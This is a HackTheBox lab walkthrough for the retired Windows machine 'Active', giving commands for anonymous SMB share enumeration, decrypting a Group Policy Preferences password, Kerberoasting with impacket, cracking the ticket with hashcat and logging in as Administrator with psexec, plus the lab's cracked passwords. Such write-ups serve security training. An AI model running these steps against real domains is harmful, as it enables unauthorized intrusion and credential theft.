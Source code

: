 ```yaml
---
title: Active - HackTheBox Walkthrough
date: 2021-10-28 12:00:00 
categories: [HackTheBox,Windows]
tags: [active directory,gpp,kerberoasting]
img_path: /assets/img/HTB/Active/
image: 
  path: 00-banner.png
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Active` a retired windows machine from HackTheBox rated easy. Without further ado, let’s begin.
# Recon
## Nmap Scan
As always we’ll start with a nmap scan to discover the open ports and services.
```console
$ cat nmap-scan
# Nmap 7.91 scan initiated Wed Oct 27 18:37:48 2021 as: nmap -sC -sV -v -oN nmap-scan 10.129.245.27
Nmap scan report for 10.129.245.27
Host is up (0.12s latency).
Not shown: 983 closed ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-10-27 23:38:24Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2021-10-27T23:39:23
|_  start_date: 2021-10-27T23:34:33

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 27 18:39:27 2021 -- 1 IP address (1 host up) scanned in 99.73 seconds
```

With the name of the machine and the ports open we can deduce we are tackling an Active Directory, the nmap result give us the domain: `active.htb`. Add this to `/etc/hosts` file.

## Smb Enumeration
Enumerating samba with [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) displays that `Replication` directory is readable.

```console
$ crackmapexec smb 10.129.245.27 -u '' -p '' --shares
```

![01-cme](01-cme.png)

and using `smbclient` we can access to it without password.

![02-smbclient](02-smbclient.png)

# Initial Foothold

After checking the files inside the directory I came across with `Groups.xml` which is a Group Policy Preference (GPP) file.

Download it with this commands:

```console
$ prompt OFF
$ mget Groups.xml
```

![03-groups](03-groups.png)

GPP store and use credentials in several files, this helps to the administrators to schedule tasks to change the local admin passwords on a large numbers of computers at once. This passwords are encrypted with AES-256 , the interesting thing is that [Microsoft published the AES private key ](https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx) and this allow us to decrypt the password.

Check this [site](https://adsecurity.org/?p=2288) for more information.

![04-password](04-password.png)

User| Password
-|-
SVC_TGS|GPPstillStandingStrong2k18

![05-cme](05-cme.png)

# Kerberoasting Attack

Once we have a valid credential we can perform a `Kerberoasting attack`. When authenticated user has a kerberos TGT(Ticket-Granting-Ticket) use this ticket to request a TGS(Ticket-Granting-Service) for specific resources/services on the domain, this TGS is encrypted with the hash of the service account associated with the SPN(Service Principal Name). The aim to this attack is get the TGS and crack it if the password is weak.

We'll use `GetUserSPNs.py` from impacket to get the TGS like the screenshot below.

![06-kerberos](06-kerberos.png)

> In case you get the next error: "Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)", you just need sync the date from the Kerberos server with your attack machine, do this with the next commands:

```console
$ sudo apt install ntpdate
$ ntpdate -u 10.129.245.27
```

Crack the TGS hash using `Hashcat` or `John the Ripper`.

Find the number of hash-mode [here](https://hashcat.net/wiki/doku.php?id=example_hashes)
```console
$ hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt --force
```

![07-hashcat](07-hashcat.png)

We got password!!

![08-cme](08-cme.png)

Let's use `psexec.py` to login as the administrator.

```console
psexec.py active.htb/Administrator:Ticketmaster1968@active.htb
```
![09-root](09-root.png)

That’s it for now guys. Until next time.

# Resources

Topic|Url
-|-
Exploiting GPP|[https://adsecurity.org/?p=2288](https://adsecurity.org/?p=2288)
Kerberos Authentication | [https://www.varonis.com/blog/kerberos-authentication-explained/](https://www.varonis.com/blog/kerberos-authentication-explained/)
Kerberoasting attack| [https://www.qomplx.com/qomplx-knowledge-kerberoasting-attacks-explained/](https://www.qomplx.com/qomplx-knowledge-kerberoasting-attacks-explained/)
Kerberoasting attack| [https://medium.com/@Shorty420/kerberoasting-9108477279cc](https://medium.com/@Shorty420/kerberoasting-9108477279cc)

